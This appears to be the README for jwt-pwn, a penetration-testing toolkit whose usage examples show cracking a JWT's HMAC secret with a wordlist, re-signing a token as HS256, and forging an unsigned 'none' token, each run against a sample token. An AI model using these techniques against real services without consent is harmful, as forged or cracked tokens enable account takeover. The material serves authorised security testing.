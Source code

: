 jwt-pwn
=========

## Security Testing Scripts for JWT

---

## jwt-cracker.py

JWT password/secret cracker.

```
$python3 jwt-cracker.py -jwt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4" -t 10 -w /pentest/wordlist.txt
[info] Loaded wordlist.
[info] starting brute-forcing.
[#] KEY FOUND: 1234
```

---


## go-jwt-cracker

JWT password/secret cracker that is much faster.

```
$ cd go-jwt-cracker
$ go get
$ go build # Building the binary.

$ ./go-jwt-cracker -wordlist /pentest/wordlist.txt -token "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1YqLEv9ypAApz27nfYP5L4"
[+] Key Found: 1234
```

---

## jwt-decoder.py

Decodes the value of JWT.

```
$ python3 jwt-decoder.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J1
YqLEv9ypAApz27nfYP5L4"


[#] JWT Header:
{"alg": "HS256", "typ": "JWT"}

[#] JWT Value:
{"jwt": "pwn"}
```

---

## jwt-any-to-hs256.py

Generates a new JWT that is signed with HS256 with the same payload value of a provided JWT.

```
python3 jwt-any-to-hs256.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc
8D-J1YqLEv9ypAApz27nfYP5L4"


[#] Generated JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqd3QiOiJwd24ifQ.WqY6R5zmscIx_6ZFwSASHZ_1zbqih_IdtLv_S2Pj028
```

---

## jwt-mimicker.py

Generates a new unsigned JWT with the same payload value of a provided JWT.

```
python3 jwt-mimicker.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJqd3QiOiJwd24ifQ.4pOAm1W4SHUoOgSrc8D-J
1YqLEv9ypAApz27nfYP5L4"


[#] Generated unsigned JWT:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJqd3QiOiJwd24ifQ.
```

---

# **Requirements** #
* Python2 or Python3
* pyjwt


# **Legal Disclaimer** #
This project is made for educational and ethical testing purposes only. Usage of jwt-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# **License** #
The project is licensed under MIT License.


# **Author** #
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
